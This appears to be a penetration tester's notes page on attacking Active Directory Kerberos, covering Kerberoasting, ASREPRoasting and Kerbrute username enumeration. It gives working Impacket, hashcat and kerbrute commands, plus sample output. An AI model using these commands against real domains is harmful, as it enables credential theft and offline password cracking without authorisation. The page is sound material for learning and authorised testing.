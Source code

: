 ```yaml
---
description: >-
  Service Principal Names (SPNs) are a unique identifier tied to each instance
  of a Windows service that can delegate to authenticate using Kerberos
---
```


# service principle names (SPNs)

They allow a service running on a server to authenticate to client computers on a network. These are used primarily in Active Directory (AD) environments.

An SPN is tied to the logon account of the service, meaning it's possible for a user account to have multiple SPNs if it's running multiple services. If a service or user account has an SPN, then it's possible for that service or account to request a Kerberos ticket. This is where the potential for abuse can occur, and it's the basis for what's known as a Kerberoasting attack.

## Kerberoasting

Kerberoasting is a method where an attacker, even one without a high privilege level, can request Kerberos tickets for any user that has an SPN associated with their account. Since these tickets are encrypted with the user's password, they can then be taken offline and subjected to a brute force attack.

#### Testing for SPNs

To test for SPNs, you can use Impacket's GetUserSPNs tool. The tool allows you to request and export SPNs associated with a user account for offline cracking.&#x20;

```bash
impacket-GetUserSPNs -dc-ip 10.199.101.5 <domain>.local/<user>
impacket-GetUserSPNs -request -dc-ip 192.168.95.11 <domain>.local/<user>
```

Replace `<domain>.local` with the Fully Qualified Domain Name (FQDN) of your target, and `<user>` with the username you're interested in. The `-dc-ip` parameter specifies the IP address of the domain controller you're targeting.

Once you've gathered the SPNs, you can then attempt to crack the passwords offline using a tool like Hashcat. Here's an example of how to use Hashcat for this:

```bash
hashcat -m 13100 hashes.txt /mnt/hgfs/Host_Desktop/ -o cracked.txt
```

In this example, `-m 13100` specifies the mode (in this case, Kerberos 5 TGS-REP etype 23), `hashes.txt` is the file containing the SPN hashes you've exported, and `-o cracked.txt` is the output file for any cracked passwords.

## ASREPRoasting

If you do not have valid domain credentials, you can look to check if any of the users you do currently have, if the account has "Does not require pre-authentication" enabled, allowing for ASREPRoasting. You can use `GetNPUsers.py` from `Impacket`

```
python3 GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```

If the target user has "Does not require Kerberos pre-authentication" enabled, you will receive an AS-REP hash that can be cracked offline.

### Install on Kali

`GetNPUsers.py` is not included in Kali Linux by default. However, it is part of the `Impacket` suite, which you can install on Kali. Here’s how to set it up:

#### 1. **Install Impacket**

*   If you haven't already, clone the Impacket repository:

    {% code overflow="wrap" %}
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    ```
    {% endcode %}
*   Navigate to the Impacket directory:

    ```bash
    cd impacket
    ```
*   Install Impacket:

    ```
    sudo python3 -m pip install .
    ```

{% code overflow="wrap" %}
```bash
python3 examples/GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```
{% endcode %}

## Kerbrute

Iff you do not have valid domain credentials to try the above, you can bruteforce attempts to request a Ticket GRanting Ticket (TGT) from the domain controller for each username in a provided list.

When a valid username is found, the domain controller responds differently compared to when the username does not exist. This response can confirm the validity of a username.

{% code overflow="wrap" %}
```bash
./kerbrute userenum --dc <domain-controller-ip> -d <domain> <userlist.txt>
```
{% endcode %}

It is not installed in kali though so you can get it by doing the following:

{% code overflow="wrap" %}
```bash
sudo apt update
sudo apt install golang-go
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
```
{% endcode %}

Valid users will look like this:

```

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 10/09/24 - Ronnie Flathers @ropnop

2024/10/09 09:13:28 >  Using KDC(s):
2024/10/09 09:13:28 >   10.24.1.20:88

2024/10/09 09:13:30 >  [+] VALID USERNAME:       gemma@acmecorp
2024/10/09 09:13:33 >  Done! Tested 10279 usernames (1 valid) in 5.110 seconds
```

In this instance, a single user was found called "gemma"

